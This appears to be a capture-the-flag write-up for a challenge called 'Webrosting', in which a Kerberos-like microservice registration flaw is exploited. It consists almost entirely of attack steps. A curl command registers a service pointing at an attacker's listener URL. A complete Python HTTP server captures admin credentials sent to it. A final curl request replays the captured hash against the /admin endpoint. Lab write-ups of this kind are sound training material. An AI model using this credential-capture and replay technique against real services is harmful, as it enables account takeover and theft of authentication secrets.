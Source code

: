 # Webrosting : 
## Imagine that Kerberos protocol was implemented for authenticating / registering a microservice in a cloud environment

the challenge is simple we register a service 
via curl command : ``` curl -X POST http://TARGET/register -d '{"service_name": "test", "service_url": "http://LISTENER_URL"}'```

we start an authentication listener : ```python3 authentication_listener.py```
```from http.server import HTTPServer , BaseHTTPRequestHandler
import json
import logging

logging.basicConfig(level=logging.INFO)
logger = logging.getLogger("simple-auth")

class AuthHandler(BaseHTTPRequestHandler):
    def _set_headers(self, code=200):
        self.send_response(code)
        self.send_header("Content-Type", "application/json")
        self.end_headers()

    def do_POST(self):
        if self.path != "/auth":
            self._set_headers(404)
            self.wfile.write(b'{"error":"not found"}')
            return

        length = int(self.headers.get("Content-Length", 0))
        body = self.rfile.read(length) if length else b""
        try:
            data = json.loads(body.decode())
        except Exception:
            data = {"raw": body.decode(errors="replace")}

        logger.info("[auth-receiver] Received: %s", data)
        with open("captured_auths.log", "a") as fh:
            fh.write(f"{data}\n")

        self._set_headers(200)
        self.wfile.write(b'{"status":"ok"}')

    def do_GET(self):
        # simple landing page so GET / works
        self.send_response(200)
        self.send_header("Content-Type", "text/plain; charset=utf-8")
        self.end_headers()
        self.wfile.write(b"Auth receiver listening. POST /auth to send creds.\n")

if __name__ == "__main__":
    server = HTTPServer(("0.0.0.0", 4000), AuthHandler)
    logger.info("Serving on http://0.0.0.0:4000")
    server.serve_forever()
```
after capturing the credentials of the admin we try to 
access the endpoint of the service we registered :
```curl -X POST http://TARGET/admin -d 'username=admin' -d 'provided_hash=HASH'```
